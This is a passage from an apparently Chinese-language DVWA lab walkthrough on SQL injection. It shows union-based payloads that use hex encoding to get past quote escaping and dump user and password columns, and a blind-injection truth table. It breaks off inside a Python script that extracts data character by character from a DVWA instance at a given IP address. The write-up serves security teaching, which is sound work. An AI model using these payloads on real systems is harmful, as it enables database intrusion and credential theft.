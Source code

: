 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223153838984.png)
列名(假设表名为users)


medium等级中使用了 *mysql_real_escape_string()* 函数将引号给过滤掉了，因此，这里可以使用十六进制来绕过引号，也就是将表名users转换为十六进制（users的十六进制为7573657273,引号不用转换），即正确的注入语句如下：
```
id=-1 union select 1,column_name from information_schema.columns where table_name=0x7573657273
```
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223154017665.png)

注入出字段内容(假设字段名为user、password)
```
id=-1 union select user,password from users
  ```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223154140616.png)

（3）high
high等级的代码，与low等级相比，只是在sql语句后面加了一个limit限制输出的数量，但是可以通过#将其注释掉，那么注入方法就与low等级的一模一样了，这里就不做详细的演示。
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019022315571874.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70)
 high等级还有一个区别就是，回显页面和注入页面不在同一个页面，这样手工注入的时候区别不大，但是使用sqlmap注入时，就有区别了。


##### 3、 SQL Injection (Blind)
（1）low

经过简单的测试之后发现，页面只会出现两种回显，即

      User ID exists in the database.
     
   和
   

      User ID is MISSING from the database.

|构造User ID取值的语句| 回显结果 |
|-- |--|
| 1| exists |
| '|MISSING|
|	1 and 1=1 # | exists|
|1 and 1=2 # | exists|
| 1' and 1=1 #| exists|
| 1' and 1=2 #| MISSING|
- 满足查询条件则返回"User ID exists in the database."，不满足查询条件则返回"User ID is MISSING from the database."
- 两者返回的内容随所构造的真假条件而不同，说明存在SQL盲注
- 由最后两行构造真假条件返回对应不同的结果，可知存在字符型的SQL盲注。

脚本如下：
```python
import requests 
    
# s = requests.Session()
url = "http://49.234.118.102:6140/DVWA/vulnerabilities/sqli_blind/"

header = {'Cookie': 'security=low; PHPSESSID=6petkvebd12iaug1tobmleq6uq'}

data = ""

def exp(i, j):
    # 判断相等时用大于号
    # payload = f"?id=1' and ascii(substr((select database()),{i},1))>{j}%23&Submit=Submit"
    # dvwa

```